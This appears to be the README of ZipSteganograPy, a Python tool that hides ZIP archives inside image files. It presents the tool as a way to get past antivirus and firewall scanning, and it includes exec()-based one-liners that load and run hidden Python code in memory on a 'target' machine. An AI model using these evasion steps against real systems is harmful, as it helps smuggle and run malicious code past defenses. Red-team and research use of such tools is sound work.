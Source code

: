 ![ZipSteganograPy logo](https://mauricelambert.github.io/info/python/security/ZipSteganograPy_small.png "ZipSteganograPy logo")

# ZipSteganograPy

## Description

This tool hides a ZIP archive in an image.

This tool is useful for bypassing antivirus and firewall scanning.

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

```bash
pip install ZipSteganograPy
```

## Usages

```bash
# Hide a ZIP archive in an image:
python3 ZipSteganograPy.py -z archive.zip -o stegano -i image.png
python3 ZipSteganograPy.pyz -z archive.zip -o stegano -i image.jpg

# Create a ZIP archive (with 3 text files) and hide it in an image:
python3 -m ZipSteganograPy -f file1.txt file2.txt file3.txt -i image.jpg
ZipSteganograPy -f file1.txt file2.txt file3.txt -i image.png

# Easily extract the hidden archive using python3 and its standard library:
python3 -m zipfile -l stegano.png            # list files
python3 -m zipfile -e stegano.jpg output/    # extract

# Easily extract the hidden archive using unzip package:
unzip stegano.jpg -l                         # list files
unzip stegano.jpg -d output/                 # extract
```

### Bypass AV signature

This example load a python code from an image and execute it without writing it on the disk.

This method bypass:

 - [x] basic anti-virus analyze based on signatures of files written on the disk
 - [ ] behavior module
 - [ ] process memory analyze

```python
from zipfile import ZipFile
with ZipFile("stegano.png", "r") as f:
    for filename in f.namelist():
        exec(f.read(filename).decode())
```

#### Demonstration

On your computer:

```sh
ZipSteganograPy -f hello.py -i ZipSteganograPy_small.png
# ZipSteganograPy  Copyright (C) 2022  Maurice Lambert
# This program comes with ABSOLUTELY NO WARRANTY.
# This is free software, and you are welcome to redistribute it
# under certain conditions.

# New image 'stegano.png' created from 'ZipSteganograPy_small.png' with hidden ZIP archive.
```

Upload the `stegano.png` file on the target (the zip file will probably not anlyze by firewalls because the file will be detected as a correct image).

On the target (unzip from image and execute your python code without writing it on the disk):

```python
from zipfile import ZipFile
with ZipFile("stegano.png", "r") as f:
    for filename in f.namelist():
        exec(f.read(filename).decode())
```

```python
import zipfile;f=zipfile.ZipFile("stegano.png", "r");[exec(f.read(filename).decode()) for filename in f.namelist()]
```

```sh
python3 -c 'import zipfile;f=zipfile.ZipFile("stegano.png", "r");[exec(f.read(filename).decode()) for filename in f.namelist()]'
```

#### Proof

![Bypass AV proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/BypassAntivirus_Stegano.PNG "Bypass AV proof")

![Working proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/demo.png "Working proof")

![Working proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/demo1.png "Working proof")

## Links

 - [Github Page](https://github.com/mauricelambert/ZipSteganograPy/)
 - [Pypi package](https://pypi.org/project/ZipSteganograPy/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ZipSteganograPy.html)
 - [Python Executable](https://mauricelambert.github.io/info/python/security/ZipSteganograPy.pyz)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
